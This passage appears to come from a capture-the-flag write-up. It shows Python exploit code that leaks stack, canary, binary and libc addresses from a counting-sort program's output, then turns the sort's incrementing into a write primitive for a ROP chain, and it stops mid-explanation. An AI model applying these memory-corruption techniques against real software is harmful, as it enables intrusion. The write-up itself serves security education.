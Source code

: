 ```py

out = p.recvrepeat(0.25)
leaks = [0 for _ in range(0x100)]
for i in out:
    leaks[i] += 1
leaks = list(map(lambda leak: '{:02x}'.format(leak), leaks))
addresses = [int(''.join(leaks[i*8:(i+1)*8][::-1]), 16) for i in range(0x100//8)]

stack_leak = addresses[0]
canary_leak = addresses[1]
elf.address = addresses[3] - elf.sym.sort - 0x270
libc.address = addresses[5] - libc.sym.__libc_start_call_main - 122
```

### roppity rop

At this point, once I got all my leaks, I was ready to start using ROP. I started looking for a way to use the heap pointer I previously mentioned (points to a heap allocation containing our input). I thought that I could potentially do some tcache shenanigans to get a pointer to the stack and then just write a ROP chain from stdin to the stack. But I never quite figured it out.  

So, I turned to my backup plan: taking (abusing) the little incrementing thing I used to modify the saved RIP, and turning it into a write primitive.  

### Write-What*-Where** (sorta)

Here's the implementation of `change_addr` so you can understand how I implemented the write primitive:  

```py
def change_addr(original: int, new: int, offset: int, num_writes: int=0x8):
    freqs = [0 for _ in range(num_writes)]

    for i in range(num_writes):
        freqs[i] = (new & 0xff) - (original & 0xff)
        if freqs[i] < 0: freqs[i] = OVERFLOW_CONSTANT + freqs[i]
        
        new >>= 8
        original >>= 8

    if sum(freqs) > MAX_LEN:
        raise OverflowError(f'Too many writes {hex(sum(freqs))}\n{list(map(hex, freqs))}')
    
    writes = []
    for i in range(num_writes):
        writes += [offset + i]*freqs[i]
    
    return writes
```

Basically, we can abuse the incrementing part of counting sort, turning it into a write primitive. It's contingent on a couple things, namely:  
